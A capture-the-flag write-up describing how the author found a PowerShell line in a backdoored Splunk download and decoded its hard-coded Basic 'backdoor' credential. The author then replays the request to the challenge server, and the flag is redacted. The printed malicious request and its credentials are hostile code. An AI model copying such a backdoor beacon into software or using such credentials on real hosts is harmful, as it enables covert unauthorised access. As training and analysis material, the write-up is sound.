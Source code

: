 According to the prompt, the downloaded file for this challenge was a malicious version of splunk.

They also gave us a link to a web address. When the address was visited it just displayed an error that said `{"error":"Missing or invalid Authorization header"}`. I was pretty sure it was just a matter of finding this authorization header.

My first thought was to just start searching through all the folders in the download for a flag following the format for this CTF. So I searched for "flag{". No luck there. 

But while I was in the code, I thought to look for the header. I knew that the program had to reach out to that website to give it the header, so I just searched the code for the web address: `chal.ctf.games`. I left off the port because I figured this would be specific enough.

My search found the address in a powershell script:

```
$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

Checking this base64-encoded string was the next logical step. It confirmed my thought process:

`backdoor:use_this_to_authenticate_with_the_deployed_http_server`

So now I just needed to send that header with my request. I had never done this before without using BurpSuite, but since that isn't allowed for this CTF, I started searching for other options. I tried a few chrome extensions that didn't seem to work, or I couldn't get them to work.

Meanwhile the site got DDoS'd by all the traffic people were sending at it. So while the maintainers figured out the issue, I started thinking about other ways to send the request.

In the end, what I did was just use the powershell script to invoke a request. I took the request from the code, hard-coded in the port number and dropped it into powershell:

```
Invoke-WebRequest http://chal.ctf.games:31106 -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing
```

This is the returned response (flag redacted):

```
StatusCode        : 200
StatusDescription : OK
Content           : <!-- <Base64-Encoded Flag was Here> -->
RawContent        : HTTP/1.1 200 OK
                    Content-Length: 69
                    Content-Type: text/html; charset=utf-8

                    <!-- <Base64-Encoded Flag was Here> -->
Forms             :
Headers           : {[Content-Length, 69], [Content-Type, text/html; charset=utf-8]}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        :
RawContentLength  : 69
```
